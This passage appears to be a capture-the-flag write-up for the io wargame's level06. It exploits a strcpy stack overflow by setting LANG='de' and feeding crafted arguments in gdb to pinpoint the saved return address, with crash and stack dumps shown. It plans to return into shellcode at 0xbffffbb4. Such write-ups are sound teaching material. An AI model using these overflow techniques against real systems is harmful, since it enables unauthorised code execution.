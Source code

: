 Doesn't look like anything really interesting happened. The buffer we're trying to overflow is the `char greeting[64]` buffer. We've got a word being strcpy'd into the buffer first depending on the LANG environment variable. If LANG is "en", we get the word "Hi" copied into it. Maybe if we had the largest word copied into that buffer first we would end up overwriting the return address. Looks like we need LANG to be "de" so we can have Willkommen copied into the buffer first so let's do that.
```
level6@io:/levels$ export LANG="de"
level6@io:/levels$ echo $LANG
de
```

Great, now let's try running the program to make sure it reads it correctly.
```
level6@io:/levels$ ./level06 user pass
Willkommen user
```

Now let's try the same command line arguments and see if we overwrite the return address.
```
level6@io:/levels$ gdb -q level06
Reading symbols from /levels/level06...(no debugging symbols found)...done.
(gdb) run $(python -c 'print "A"*40') $(python -c 'print "B"*32')
Starting program: /levels/level06 $(python -c 'print "A"*40') $(python -c 'print "B"*32')
Willkommen AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/20xw $esp
0xbffffbb0: 0x00424242  0x41414141  0x41414141  0x41414141
0xbffffbc0: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffbd0: 0x41414141  0x41414141  0x42424242  0x42424242
0xbffffbe0: 0x42424242  0x42424242  0x42424242  0x42424242
0xbffffbf0: 0x42424242  0x42424242  0x00000000  0x00000001
```

Things are looking good. The stack doesn't seem to move around at all so we can need to figure out exactly where we're overwriting the return address and overwrite it with the address 0xbffffbb4 which points to the start of the As and replace the start of the As with the same shellcode we used for the previous level.
```
(gdb) run $(python -c 'print "A"*40') $(python -c 'print "B"*24 + "CCCCDDDD"')
Starting program: /levels/level06 $(python -c 'print "A"*40') $(python -c 'print "B"*24 + "CCCCDDDD"')
Willkommen AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBCCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()
(gdb) run $(python -c 'print "A"*40') $(python -c 'print "B"*24 + "CCCCCDDDD"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level06 $(python -c 'print "A"*40') $(python -c 'print "B"*24 + "CCCCCDDDD"')
Willkommen AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBCCCCCDDD

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```
